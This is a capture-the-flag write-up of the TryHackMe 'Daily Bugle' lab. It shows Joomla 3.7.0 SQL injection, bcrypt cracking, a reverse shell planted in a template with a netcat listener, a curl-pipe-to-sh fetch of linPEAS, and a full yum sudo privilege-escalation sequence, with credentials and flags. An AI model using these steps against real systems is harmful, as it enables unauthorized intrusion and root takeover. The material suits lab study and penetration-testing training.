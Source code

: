 # Daily Bugle Writeup
#pentest/tryhackme


We have a web page, by the source code we see mentions of **Joomla**, a PHP framework.
How do we find out the framework’s version?

I always like to start with something like **dirsearch** to find out interesting endpoints we haven’t explored.

```shell
$ python3 dirsearch.py -u http://10.10.173.12 -e php
...
[23:36:38] 301 -  242B  - /administrator  ->  http://10.10.173.12/administrator/                            
[23:36:39] 403 -  225B  - /administrator/.htaccess
[23:36:39] 301 -  247B  - /administrator/logs  ->  http://10.10.173.12/administrator/logs/
[23:36:39] 200 -    5KB - /administrator/           
[23:36:39] 200 -    5KB - /administrator/index.php
[23:36:51] 301 -  232B  - /bin  ->  http://10.10.173.12/bin/                                                      
[23:36:51] 200 -   31B  - /bin/        
[23:36:53] 301 -  234B  - /cache  ->  http://10.10.173.12/cache/      
[23:36:53] 200 -   31B  - /cache/      
[23:36:55] 403 -  210B  - /cgi-bin/                                     
[23:36:59] 301 -  239B  - /components  ->  http://10.10.173.12/components/     
[23:37:01] 200 -    0B  - /configuration.php               
[23:37:20] 200 -    3KB - /htaccess.txt                                                               
[23:37:22] 301 -  235B  - /images  ->  http://10.10.173.12/images/ 
[23:37:23] 301 -  237B  - /includes  ->  http://10.10.173.12/includes/
[23:37:23] 200 -   31B  - /includes/
[23:37:23] 200 -    9KB - /index.php                                                                           
[23:37:28] 301 -  237B  - /language  ->  http://10.10.173.12/language/                                  
[23:37:29] 301 -  238B  - /libraries  ->  http://10.10.173.12/libraries/  
[23:37:30] 200 -   18KB - /LICENSE.txt           
[23:37:36] 301 -  234B  - /media  ->  http://10.10.173.12/media/
[23:37:38] 301 -  236B  - /modules  ->  http://10.10.173.12/modules/
[23:37:52] 301 -  236B  - /plugins  ->  http://10.10.173.12/plugins/                    
[23:37:56] 200 -    4KB - /README.txt                                                          
[23:37:58] 200 -  836B  - /robots.txt           
[23:38:13] 301 -  238B  - /templates  ->  http://10.10.173.12/templates/                                          
[23:38:13] 200 -   31B  - /templates/
[23:38:15] 301 -  232B  - /tmp  ->  http://10.10.173.12/tmp/                
[23:38:15] 200 -   31B  - /tmp/     
[23:38:21] 200 -    2KB - /web.config.txt
```

Tons of interesting leads.

README.txt has mentions to version 3.7.

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master

```

So 3.7.0 it is, thank you readme! 

We can also find out a bit more about the version and potential vulnerabilities using the handy [GitHub - rezasp/joomscan: OWASP Joomla Vulnerability Scanner Project](https://github.com/rezasp/joomscan) tool.

```shell
$ perl joomscan.pl -u 10.10.249.35
...
[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
...
                                                                                                              
```

The report also lists tons of interesting directories to be explored. Let’s see if we can find a Joomla vulnerability first though.

```shell
$ searchsploit joomla -w -s 3.7
------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                    |  URL
------------------------------------------------------------------------------------------------------------------------------------
Joomla! 3.7 - SQL Injection                                                       | https://www.exploit-db.com/exploits/44227
Joomla! 3.7.0 - 'com_fields' SQL Injection                                        | https://www.exploit-db.com/exploits/42033
Joomla! Component ARI Quiz 3.7.4 - SQL Injection                                  | https://www.exploit-db.com/exploits/46769
Joomla! Component com_realestatemanager 3.7 - SQL Injection                       | https://www.exploit-db.com/exploits/38445
Joomla! Component J2Store < 3.3.7 - SQL Injection                                 | https://www.exploit-db.com/exploits/46467
Joomla! Component JomEstate PRO 3.7 - 'id' SQL Injection                          | https://www.exploit-db.com/exploits/44117
Joomla! Component Quiz Deluxe 3.7.4 - SQL Injection                               | https://www.exploit-db.com/exploits/42589
------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```

We seem to have a few options here.  Let’s give the `com_fields` one a shot: https://www.exploit-db.com/exploits/42033

According to the exploitdb page we can use `SqlMap` , but let’s use another script in our case. [exploits/Joomblah at master · XiphosResearch/exploits · GitHub](https://github.com/XiphosResearch/exploits/tree/master/Joomblah)

```shell
$ wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py
...
$ python joomblah.py http://<machine-ip>:<machine-port>
...
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Seems like we have a super user called `jonah` with password `'$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'`
The three `.` makes me suspicious of JWT. Let’s do a base64 decode.

```shell
irb(main):002:0> Base64.decode64('$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm')
=> "\xDB-t\xD2\xF7\x8E\xFC\x94\x85\x87\x8D\xFC\xF4\xB9ns\x85\xF2i\xD7\xF2\xD8\xC1[f\x1C\xF4\x8DS0U\xDD\xE9\xD7i\x01\xB5\x9B\xAD"
```

Doesn’t seem like it… well.. what now? John the ripper it! 

```shell
$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:07:40 DONE (2020-06-28 19:32) 0.002170g/s 101.6p/s 101.6c/s 101.6C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

`jonah/spiderman123` let’s go!

After logging in, like any CMS, if we can manipulate the PHP code we have a way in. Let’s go to:

1. Extensions -> Templates -> Select the Template we want -> Change index.php to have the reverse shell code.
2. Now we can set a netcat listener and refresh the main page, our template code will be executed.


```shell
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.2.13.100] from (UNKNOWN) [10.10.249.35] 45320
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:42:44 up 54 min,  0 users,  load average: 0.09, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
ls /home
jjameson
```

So we have a `jjameson` user but we don’t have their password. One idea is to try and escalate privileges using linPEAS: [privilege-escalation-awesome-scripts-suite/linPEAS at master · carlospolop/privilege-escalation-awesome-scripts-suite · GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```shell
$ curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

Of the many things linPEAS flags us one of them is a password in `/var/www/html/configuration.php` -> `nv5uz9r3ZEDzVjNu`
Can we use it to ssh into the machine?

```shell
ssh jjameson@10.10.68.45
...
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
```

Sweet! Privilege escalation time!

As always we first check which commands our user can run as sudo:

```shel
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
    KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE
    LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Can we find an exploit for `/usr/bin/yum`?  Sure we can!  [yum  |  GTFOBins](https://gtfobins.github.io/gtfobins/yum/)

```shell
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# ls /root/
anaconda-ks.cfg  root.txt
sh-4.2# cat /root/root.txt 
eec3d53292b1821868266858d7fa6f79
```

